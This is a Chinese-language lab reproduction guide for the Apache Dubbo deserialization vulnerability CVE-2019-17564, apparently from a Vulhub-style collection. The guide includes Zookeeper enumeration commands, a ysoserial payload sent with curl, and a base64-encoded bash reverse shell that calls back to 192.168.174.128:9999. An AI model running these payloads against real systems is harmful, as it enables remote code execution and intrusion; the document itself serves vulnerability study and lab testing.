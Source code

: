 # Apache Dubbo Java反序列化漏洞 CVE-2019-17564

## 漏洞描述

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。RPC，全称为Remote Procedure Call，即远程过程调用，它是一个计算机通信协议。它允许像调用本地服务一样调用远程服务。

Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞影响

```
Apache Dubbo 2.7.4及以前版本
```

Apache Dubbo 2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

## 环境搭建

执行如下命令启动一个Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`，服务器默认会返回500错误。

## 漏洞复现

利用该漏洞需要先知道目标RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub对外开放了8080端口和2181端口，其中2181即为Zookeeper的端口，本地下载[Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台Zookeeper服务器。

依次执行以下命令下载、解压、使用zkCli工具：

```
$ wget https://dlcdn.apache.org/zookeeper/zookeeper-3.7.0/apache-zookeeper-3.7.0-bin.tar.gz
$ tar xvf apache-zookeeper-3.7.0-bin.tar.gz
$ cd apache-zookeeper-3.7.0-bin/bin
$ ./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用`ls`即可列出其中所有节点，包括Dubbo相关的配置：

![image-20220222214720363](./images/202202222147467.png)

获取到RPC接口名为`org.vulhub.api.CalcService`。直接用ysoserial生成CommonsCollections6的Payload作为POST Body发送到`http://your-ip:8080/org.vulhub.api.CalcService`即可触发反序列化漏洞：

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "touch /tmp/awesome_poc" > 1.poc

$ curl -XPOST --data-binary @1.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222220814317](./images/202202222208473.png)

进入docker，命令`touch /tmp/awesome_poc`执行成功：

![image-20220222220908304](./images/202202222209355.png)

反弹shell：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1 
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx
```

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" > shell.poc

$ curl -XPOST --data-binary @shell.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222221020948](./images/202202222210040.png)